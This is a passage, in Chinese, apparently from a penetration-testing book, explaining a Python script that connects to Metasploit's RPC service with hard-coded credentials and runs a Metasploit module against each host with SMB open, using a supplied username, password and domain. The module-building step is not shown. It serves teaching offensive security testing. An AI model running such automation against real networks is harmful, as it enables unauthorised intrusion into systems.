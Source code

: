 最后一个函数实际启动与 MSFRPC 的连接，并针对特定主机执行相关命令。

```
def run_commands(verbose, iplist, user, passwd, dom, port, file):
    bufsize = 0
    e = open(file, 'a', bufsize)
    done = False
```

该脚本创建与 MSFRPC 的连接，并创建控制台，然后通过特定的`console_id`对其进行跟踪。别忘了，`msfconsole`可以有多个会话，因此我们必须将会话跟踪到`console_id`。

```
    client = msfrpc.Msfrpc({})
    client.login('msf','msfrpcpassword')
    try:
        result = client.call('console.create')
    except:
        sys.exit("[!] Creation of console failed!")
    console_id = result['id']
    console_id_int = int(console_id)
```

然后，该脚本迭代已确认具有活动 SMB 服务的 IP 地址列表。然后，脚本为每个 IP 地址创建必要的命令。

```
    for ip in iplist:
        if verbose > 0:
            print("[*] Building custom command for: %s") % (str(ip))
        command, module = build_command(verbose, user, 
          passwd, dom, port, ip)
        if verbose > 0:
            print("[*] Executing Metasploit module %s 
              on host: %s") % (module, str(ip)) 
```

然后将命令写入控制台，我们等待结果。

```
        client.call('console.write',[console_id, command])
        time.sleep(1)
        while done != True:
```

我们等待每个命令执行的结果，并验证已返回的数据以及控制台是否仍在运行。如果是，我们将延迟数据的读取。完成后，结果将写入指定的输出文件。

```
            result = client.call('console.read',[console_id_int])
            if len(result['data']) > 1:
                if result['busy'] == True:
                    time.sleep(1)
                    continue
                else:
                    console_output = result['data']
                    e.write(console_output)
                    if verbose > 0:
                        print(console_output)
                    done = True
```
